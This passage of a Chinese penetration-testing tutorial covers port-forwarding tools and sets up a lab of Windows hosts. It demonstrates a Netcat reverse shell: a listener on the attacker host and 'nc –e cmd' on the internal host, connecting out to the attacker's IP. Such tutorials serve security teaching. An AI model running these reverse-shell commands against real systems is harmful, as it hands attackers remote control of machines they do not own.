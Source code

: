 0x05 端口转发和代理工具
--------------

*   Lcx
*   Htran
*   Netcat

0x06 环境拓扑图
----------

[](https://xzfile.aliyuncs.com/media/upload/picture/20190912231558-393b62e8-d570-1.png)[![](https://xzfile.aliyuncs.com/media/upload/picture/20190912231558-393b62e8-d570-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20190912231558-393b62e8-d570-1.png)  
A 主机 W7

B 主机 W7

C 主机 XP

0x07 NC
-------

### NC 用法

[](https://xzfile.aliyuncs.com/media/upload/picture/20190912231809-8724fbb8-d570-1.png)[![](https://xzfile.aliyuncs.com/media/upload/picture/20190912231809-8724fbb8-d570-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20190912231809-8724fbb8-d570-1.png)

### 2. NC 反向连接 - 网络环境设想：

> A 外网 无法访问 内网 B 【A 为攻击者处于外网】
> 
> B 内网 可以访问 外网 A

A：192.168.0.226

[](https://xzfile.aliyuncs.com/media/upload/picture/20190912231914-ae1afe20-d570-1.png)[![](https://xzfile.aliyuncs.com/media/upload/picture/20190912231914-ae1afe20-d570-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20190912231914-ae1afe20-d570-1.png)

B：192.168.32.130

[](https://xzfile.aliyuncs.com/media/upload/picture/20190912232002-ca8ef3e0-d570-1.png)[![](https://xzfile.aliyuncs.com/media/upload/picture/20190912232002-ca8ef3e0-d570-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20190912232002-ca8ef3e0-d570-1.png)

适合 **nc 反向连接**：也就将内网主机 B shell 反弹到 外网 A

在外网主机 A 上执行：nc –nvlp 7777

[](https://xzfile.aliyuncs.com/media/upload/picture/20190912232106-f0e24150-d570-1.png)[![](https://xzfile.aliyuncs.com/media/upload/picture/20190912232106-f0e24150-d570-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20190912232106-f0e24150-d570-1.png)  
在内网主机 B 上执行：nc –e cmd 192.168.0.226 7777

[](https://xzfile.aliyuncs.com/media/upload/picture/20190912232202-1224d4a4-d571-1.png)[![](https://xzfile.aliyuncs.com/media/upload/picture/20190912232202-1224d4a4-d571-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20190912232202-1224d4a4-d571-1.png)  
此处假装我连上了 shell，并上传了 nc
